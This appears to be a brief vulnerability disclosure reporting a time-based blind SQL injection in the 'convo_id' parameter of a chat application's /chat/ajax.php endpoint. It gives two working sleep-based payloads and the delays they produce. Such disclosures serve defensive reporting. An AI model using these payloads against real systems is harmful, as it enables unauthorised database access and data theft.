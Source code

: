 BUG_Author：sikii

Vulnerability URL: /chat/ajax.php?action=read_msg

POST parameter 'convo_id' exists SQL injection vulnerability

Payload1: convo_id=1' and (select 2 from (select(sleep(10)))t) and 'q'='q&user_id=2

The response time is 10 seconds.

![image](https://github.com/sikii7/CVE/blob/main/pic/sql1.png)

Payload2: convo_id=1' and (select 2 from (select(sleep(15)))t) and 'q'='q&user_id=2

The response time is 15 seconds.

![image](https://github.com/sikii7/CVE/blob/main/pic/sql2.png)
